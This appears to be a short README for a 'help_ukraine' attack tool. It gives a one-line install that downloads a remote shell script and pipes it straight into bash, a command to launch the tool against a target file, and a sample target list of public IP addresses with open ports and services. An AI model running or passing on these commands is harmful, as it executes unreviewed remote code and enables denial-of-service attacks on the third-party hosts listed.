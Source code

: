 Hello and thanks that helps Ukraine

wget -O - https://raw.githubusercontent.com/latvinpetro/help_ukraine/main/init.sh | /bin/bash


use next command

go run /var/help/main.go -path [path to target file]


<h1>What is format Target file</h1>

file should start **without** space.
first line should start with **ip address**

10.15.12.10
80/HTTP

92.38.145.145
80/HTTP , 443/HTTP , 444/HTTP , 7264/HTTP , 8443/HTTP , 10080/HTTP

92.53.97.198
53/DNS

91.109.201.82
80/HTTP , 443/HTTP , 1194/UNKNOWN , 2000/MIKROTIK_BW